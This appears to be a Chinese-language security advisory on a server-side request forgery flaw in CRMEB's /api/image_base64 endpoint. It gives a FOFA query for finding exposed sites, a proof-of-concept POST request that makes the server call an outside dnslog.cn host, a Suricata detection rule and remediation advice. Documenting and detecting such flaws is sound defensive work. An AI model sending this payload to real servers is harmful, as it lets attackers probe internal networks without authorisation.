

# **CRMEB image_base64存在SSRF漏洞**

CRMEB image_base64存在SSRF漏洞，何未授权的攻击者利用漏洞构造包含恶意指令的特殊请求探测服务器内网，严重导致服务器被控。

# 影响版本

CRMEB

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"

POC/EXP：

```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

image=http://ly900s.dnslog.cn&code=
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"CRMEB - /api/image_base64 image 服务端请求伪造 (SSRF/dnslog)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/api/image_base64";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"image=";
        content:"http://"; distance:0; nocase;
        content:"dnslog.cn"; distance:0; nocase;
    metadata:
        service http,
        affected_product "CRMEB",
        vulnerability_type "Server-Side Request Forgery (SSRF)",
        severity "high";
    classtype:web-application-attack;
    sid:1000771;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
